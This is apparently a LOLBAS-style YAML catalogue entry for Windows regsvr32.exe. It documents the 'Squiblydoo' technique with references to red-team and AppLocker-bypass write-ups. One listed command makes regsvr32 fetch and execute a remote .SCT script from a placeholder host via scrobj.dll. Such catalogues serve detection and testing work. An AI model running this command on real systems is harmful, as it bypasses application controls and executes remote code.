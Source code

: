 ---
Name: Regsvr32.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
  - Commands: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
Full Path:
  - C:\Windows\System32\regsvr32.exe
  - C:\Windows\SysWOW64\regsvr32.exe
Code Sample: []
Detection: []
Resources:
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md
  - https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
Notes: Thanks to Casey Smith - @subtee

